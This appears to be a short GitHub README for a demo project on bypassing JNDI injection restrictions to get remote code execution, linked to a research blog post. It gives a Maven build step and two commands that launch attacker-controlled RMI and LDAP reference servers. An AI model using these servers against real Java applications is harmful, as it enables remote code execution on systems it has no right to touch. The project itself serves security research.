 # JNDI-Exploit-Bypass-Demo
Demo code for post &lt;Restrictions of JNDI Manipulation RCE &amp; Bypass>

<https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html>

## Build

```
mvn package
```

## Usage
```
java -cp HackerRMIRefServer-all.jar HackerRMIRefServer 0.0.0.0 8088 1099
java -cp HackerRMIRefServer-all.jar HackerLDAPRefServer  0.0.0.0 8088 1389
```


